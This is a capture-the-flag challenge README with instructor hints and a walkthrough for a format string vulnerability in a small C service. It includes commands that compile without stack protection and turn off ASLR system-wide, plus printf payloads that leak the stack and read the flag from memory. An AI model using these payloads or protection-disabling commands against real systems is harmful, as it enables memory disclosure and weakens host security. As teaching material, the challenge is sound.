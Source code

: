 # Setup
Tested on Ubuntu 18.04.

There are two versions of the binaries and source code--one each with the flag redacted and one
with the actual flag that will be used to run the actual service.

Compile binary without stack protection (not necessary if using the binary already in this folder)
`gcc format.c -o format -fno-stack-protector -z execstack -no-pie -fno-pie`

Disable ASLR on server:
```
# disable in current session
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

# make change permanent (across reboots)
echo "kernel.randomize_va_space = 0" > /etc/sysctl.d/01-disable-aslr.conf
```

# Description
We found a service at `<ip>:<port>` containing a flag in a global variable, but unfortunately the 
access code authentication seems to be broken. Can you print out the flag stored in the global variable?
We found this [binary]() and this copy of the [source code]() with the flag redacted.

# Hints

##Name of Vuln
Format string attack

## Where
The vulnerability is located at lines 6-8 of the program.

## Vague solution strategy
This program takes an input from stdin and prints it out using `printf`. See if you can force `printf` to 
print the string stored in the `flag` variable by passing in a format string carefully crafted to print the `flag` variable.

## First steps to the solution
The program already helps us out by printing out the address of the flag variable, which is `0x56557008`. Try passing in the following string as input to view the stack and see where your input from stdin is being stored: `AAAA %p %p %p %p %p %p %p %p %p %p`.
-Follow up if they do not recognize X41 as A. Make sure they can find their input on the 4th spot.

# Solution
The program already helps us out by printing out the address of the flag variable, which is `0x56557008`.

We can then pass the following as input to view the stack and see at what offset our input is being stored:
```
AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p
```

We can see that `AAAA` is being stored as 0x41414141 at offset 4. We can view that portion of the stack 
directly using `%4$p` as input:
```
AAAA %4$p %p %p %p 
```

Now let's pass the address of the flag as the second input so it gets stored in the stack next to
the first input, and we will pass a `%s` to print it out as a string.
```
python2 -c 'print "AAAA" + "\x08\x70\x55\x56" + "%5$s" | ./format

Let them try it on the NC instance and see if they notice that the flag address is slightly different now that the variable is not "redacted"
```

